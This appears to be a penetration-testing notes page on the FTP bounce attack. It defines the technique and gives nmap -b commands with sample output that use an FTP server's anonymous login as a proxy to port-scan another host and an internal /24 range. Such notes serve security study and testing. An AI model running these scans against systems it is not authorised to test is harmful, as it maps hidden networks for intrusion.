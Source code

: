 # FTP Bounce Attack

* a network attack that uses FTP servers to deliver outbound traffic to another device on the network.
  * The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server



<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Attack

* [nmap.md](nmap.md "mention")

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

```
nmap -b <name>:<pass>@<ftp_server> <victim>
```

```
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
```

```
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

## Reference

* https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack
